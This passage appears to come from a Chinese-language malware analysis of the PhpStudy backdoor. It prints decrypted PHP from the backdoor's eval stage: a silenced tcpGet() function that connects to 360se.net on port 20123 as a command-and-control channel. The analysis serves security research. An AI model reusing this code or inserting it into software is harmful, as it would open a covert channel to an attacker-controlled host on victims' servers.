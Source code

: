 ![3.jpg](./resource/Phpstudy后门(非官方后门！！！)/media/rId30.jpg)

图3：第2部分流程判断代码

这一部分有两处会执行zend\_eval\_strings函数代码的位置。分别是从1000D66C到1000E5C4的代码解密：

    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
      $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10); 
      if( !$handle ){
        $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
        if( !$handle ){
            return "err";
        }
      }
      fwrite($handle, $sendMsg."\n");
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);
            $info = stream_get_meta_data($handle);
            if ($info['timed_out']) {
              break;
            }
         }
      fclose($handle); 
      return $result; 
    }
